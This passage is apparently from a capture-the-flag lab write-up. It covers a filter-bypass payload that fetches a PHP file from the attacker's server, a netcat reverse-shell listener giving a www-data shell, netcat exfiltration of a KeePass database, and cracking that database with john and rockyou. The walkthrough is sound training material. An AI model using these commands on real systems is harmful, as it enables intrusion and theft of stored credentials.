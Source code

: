 ```bash
$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.66.215 - - [12/Apr/2023 07:25:10] code 404, message File not found
10.10.66.215 - - [12/Apr/2023 07:25:10] "GET /cat.jpg HTTP/1.1" 404 -
10.10.66.215 - - [12/Apr/2023 07:25:10] code 404, message File not found
10.10.66.215 - - [12/Apr/2023 07:25:10] "GET /file7.php HTTP/1.1" 404 -
10.10.66.215 - - [12/Apr/2023 07:25:11] code 404, message File not found
10.10.66.215 - - [12/Apr/2023 07:25:11] "GET /file17.phpx00.png HTTP/1.1" 404 -
10.10.66.215 - - [12/Apr/2023 07:25:11] code 404, message File not found
10.10.66.215 - - [12/Apr/2023 07:25:11] "GET /file18.php HTTP/1.1" 404 -
10.10.66.215 - - [12/Apr/2023 07:25:11] code 404, message File not found
10.10.66.215 - - [12/Apr/2023 07:25:11] "GET /file19.php%0D HTTP/1.1" 404 -
10.10.66.215 - - [12/Apr/2023 07:25:12] code 404, message File not found
10.10.66.215 - - [12/Apr/2023 07:25:12] "GET /ex: HTTP/1.1" 404 -
```

We noticed the 7th payload looks for a plain PHP file (GET /file7.php), we have found our payload:

```bash
url=http://10.18.11.118/file7.php#.jpg
```

## Foothold

We can now upload a reverse shell by using the above payload. Once we gained access we noticed we are the www-data account. There is one other user on this machine called sysadmin. The /home/sysadmin directory contains the local.txt flag and a scripts folder.

```bash
$ nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.18.11.118] from (UNKNOWN) [10.10.177.101] 36966
$ whoami
www-data
$ pwd
/
$ cd /home/
$ ls
sysadmin
$ cd sysadmin   
$ ls
local.txt
scripts
```

## Lateral movement

By going through the file system, we noticed a keepass database in the /opt/ directory. We send it to our local machine through netcat and crack the password with john.

```bash
$ nc -w 3 [destination] 4444 < dataset.kdbx
```
```bash
$ nc -l -p 4444 > dataset.kdbx
$ keepass2john dataset.kdbx > Keepasshash.txt
$ cat Keepasshash.txt  
dataset:$keepass$*2*100000*0*21**REDACTED**4
$ john --wordlist=/usr/share/wordlists/rockyou.txt Keepasshash.txt
Using default input encoding: UTF-8
Loaded 1 password hash (KeePass [SHA256 AES 32/64])
Press 'q' or Ctrl-C to abort, almost any other key for status
7**REDACTED**3        (dataset)     
1g 0:00:00:12 DONE (2023-04-11 16:52) 0.08077g/s 70.75p/s 70.75c/s 70.75C/s chichi..melvin
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```